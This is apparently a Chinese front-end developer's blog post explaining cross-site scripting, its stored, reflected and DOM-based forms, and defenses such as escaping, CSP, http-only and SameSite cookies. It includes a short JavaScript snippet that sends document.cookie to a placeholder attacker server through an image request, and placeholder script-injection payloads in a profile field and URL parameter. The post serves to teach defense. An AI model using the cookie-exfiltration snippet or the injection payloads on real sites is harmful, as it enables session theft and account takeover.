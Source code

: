 
# XSS 是什么？

大家好，我是前端西瓜哥。今天我们来了解一下 XSS 攻击。

XSS 是什么？
--------

XSS，指的是**跨站脚本攻击**，是 Cross-site scripting 的缩写。

全称缩写后应该是 CSS，但这样就和 层叠样式表 Cascading Style Sheets 的缩写相同了，为以示区分，改用 XSS。

XSS，**本质是代码注入**。通过某种方式在受攻击网站中注入一些恶意代码，当用户访问该网站去触发这段脚本。

攻击的内容大致有以下几种：

1.  **获取用户的登录凭证，拿到后登录用户账号盗取敏感信息**
    

```js
const img = new Image();
img.src = 攻击者的服务器_ip + document.cookie;
document.body.append(img);
```

2.  **直接去执行一些需要权限才能进行的操作，比如给站内的某人投一票**。
    
3.  **对小网站做 Dos 攻击**。所谓 Dos 就是通过短时间大量的请求让网站无法处理过来，导致网站不可用。比如你在百度首页成功注入了恶意脚本，该脚本会对某个小网站不断发送请求。这样同时大量用户打开百度首页，这请求量就就非常恐怖，小网站直接嗝屁。
    

XSS 分类
------

XSS 主要分为：存储型 XSS、反射型 XSS、以及注入型 XSS。

### 存储型 XSS

恶意脚本被持久化保存在数据库中。

比如在自己的个人介绍的文本内容中，使用了 `<script>// 这里是一些恶意代码</script>`。当用户访问攻击者的个人主页时，如果服务端渲染时就会用上这段数据，没有做特别的转义处理，渲染出来的 HTML 中就带上了这个脚本，然后执行。

### 反射型 XSS

有些网页会将 url 中的一些数据作为渲染的内容去渲染。

比如我们希望用户支付完订单后跳转到一个结果页，这个页面通过 url 中的 query 字符串来显示一些内容，比如`http://a.com/order?message=成功` ，我们会读取 message 的值 “成功”，将这个文案渲染到页面上。

如果这个 “成功” 被黑客替换为恶意脚本，变成 `http://a.com/order?message=<script>// 恶意脚本内容</script>`，且网站没做转义处理，那这个恶意脚本就会被嵌入执行。

当然这个链接很奇怪，用户在常规情况下无法访问到这样的链接。

所以攻击者就需要先组装好，然后通过一些方式诱导用户去访问它，比如通过钓鱼邮件诱导点击。

### DOM 型 XSS

DOM 型 XSS 和反射型有点类似，但它和后端无关，是前端的问题。

前面两种类型做的是后端渲染，即用户请求 HTML 时，在服务端拼装返回完整的 HTML 返回。

DOM 型 XSS 是服务端没有返回完整的 HTML，而是让前端做拼装渲染，如果没有做特殊处理，也会导致恶意代码注入。

XSS 防御
------

1.  不要相信用户的数据；
    
2.  使用转义，常见的是将 `"'&<>` 做转义。比如 React 对字符做了防 XSS 处理，[源码](https://github.com/facebook/react/blob/HEAD/packages/react-dom/src/server/escapeTextForBrowser.js#L51)。
    
3.  如果做的是后端渲染，也记得做转义处理或过滤处理；
    
4.  使用 CSP（内容安全策略）。Twitter 网站使用了这个；
    
5.  对敏感 cookie 设置 http-only，让前端脚本无法获取到；
    
6.  cookie 的 SameSite 属性考虑调整为 Strict 或 Lax，让跨域 HTTP 请求的头字段无法自动携带 cookie；
    
7.  进行敏感请求时，加个验证码校验；
    
8.  控制内容输入长度（作用不大）；
    

结尾
--

XSS 攻击是一种比较常见的代码注入攻击。

在平时写代码时，要注意一些数据进行渲染时，会不会导致 XSS 注入的风险，做一些必要的处理，希望这篇文章对你有一些帮助。

我是前端西瓜哥，欢迎关注我，学习更多前端知识。

> 文章首发于我的公众号：前端西瓜哥